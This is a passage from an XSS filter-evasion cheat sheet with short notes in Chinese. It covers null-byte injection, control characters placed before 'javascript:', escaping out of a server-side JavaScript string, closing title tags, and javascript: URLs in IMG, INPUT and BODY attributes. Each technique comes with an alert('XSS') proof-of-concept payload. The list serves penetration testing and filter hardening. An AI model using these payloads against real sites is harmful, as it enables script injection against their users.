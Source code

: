 
### Null breaks up JavaScript directive

Null chars also work as XSS vectors but not like above, you need to inject them directly using something like Burp Proxy or use `%00` in the URL string or if you want to write your own injection tool you can either use vim (`^V^@` will produce a null) or the following program to generate it into a text file.

~~~ perl
print "<IMG SRC=java\0script:alert(\"XSS\")>";
~~~


### Spaces and meta chars before the JavaScript in images for XSS

有的系统假设 `"javascript:"` 的引号内没有空格之类的字符，只做全匹配。

就可以使用 1～32 的任一字符注入：

~~~
<IMG SRC=" &#14;  javascript:alert('XSS');">
~~~



### Escaping JavaScript escapes

~~~
\";alert('XSS');//
~~~

被服务器端直接用于js `<SCRIPT>var a="$ENV{QUERY_STRING}";</SCRIPT>` 中，就可能变成

~~~
<SCRIPT>var a="\\";alert('XSS');//";</SCRIPT>
~~~

也可以使用 `</script><script>` 嵌入新的script元素，效果如下：

~~~
</script><script>alert('XSS');</script>
~~~


### End title tag

~~~
</TITLE><SCRIPT>alert("XSS");</SCRIPT>
~~~

### INPUT image

~~~
<INPUT TYPE="IMAGE" SRC="javascript:alert('XSS');">
~~~

### BODY image

~~~
<BODY BACKGROUND="javascript:alert('XSS')">
~~~

